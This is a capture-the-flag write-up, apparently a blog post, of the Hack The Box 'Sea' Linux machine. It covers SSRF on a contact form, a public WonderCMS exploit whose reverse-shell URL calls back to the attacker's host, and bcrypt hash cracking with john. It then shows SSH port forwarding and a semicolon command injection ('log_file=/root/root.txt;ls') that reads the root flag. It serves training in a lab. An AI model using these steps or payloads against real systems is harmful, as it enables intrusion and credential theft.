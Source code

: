 ```yaml
---
layout: post
title: "Sea"
description: "Sea is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
![Pasted image 20240811165345.png](/images/Pasted image 20240811165345.png){: .normal }

### Enumerate HTTP (Port 80)
SSRF was detected on the contact.php page. We are able to access our own Kali server.
![Pasted image 20240811202452.png](/images/Pasted image 20240811202452.png){: .normal }
```
sudo python3 -m http.server 80
[sudo] password for giiker: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.91.230 - - [11/Aug/2024 20:23:44] code 404, message File not found
10.129.91.230 - - [11/Aug/2024 20:23:44] "GET /test HTTP/1.1" 404 -
10.129.91.230 - - [11/Aug/2024 20:24:45] code 404, message File not found
10.129.91.230 - - [11/Aug/2024 20:24:45] "GET /test HTTP/1.1" 404 -
```

Identified WonderCMS 3.2.0 from theme (turboblack velik71), found login URL by googling:
```
http://sea.htb/loginURL
```

Found an exploit: [Link](https://gist.github.com/prodigiousMind/fc69a79629c4ba9ee88a7ad526043413), problem on execution: `/themes/revshell-main/rev.php`
```
WARNING: Failed to daemonise. This is quite common and not fatal. Connection refused (111)
```

Gain shell:
```
http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.15.32&lport=443
```


### User
Found hash:
```
$ cat database.js
    "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q"
```
> Remove escaped slashes.
{: .prompt-info }


Crack the hash:
```
john hash --wordlist=rockyou.txt --format=bcrypt
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mychemicalromance (?)
1g 0:00:00:11 100% 0.08424g/s 266.8p/s 266.8c/s 266.8C/s iamcool..heaven1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

User.txt:
```
amay@sea:~$ cat user.txt 
f47647ed42d5a60316d74693cebfa79d
```


### Root
Port 8080 seems to be running on localhost:
```
netstat -nlp

tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN
```

SSH port forward:
```
ssh -L 8080:localhost:8080 amay@sea.htb
```

Now we can browse to http://localhost:8080 and enter the amay users credentials for basic HTTP authentication:
![Pasted image 20240813213635.png](/images/Pasted image 20240813213635.png){: .normal }


When we intercept the "Analyze" request in burpsuite and try to get command execution by adding a ";" we end up being able to read the root flag:
```
log_file=/root/root.txt;ls&analyze_log=

flag: e8c2325e22154d4af0bd53fde4d40cf3
```


### PWNED!!!
![Screenshot from 2024-08-13 21-53-12.png](/images/Screenshot from 2024-08-13 21-53-12.png){: .normal }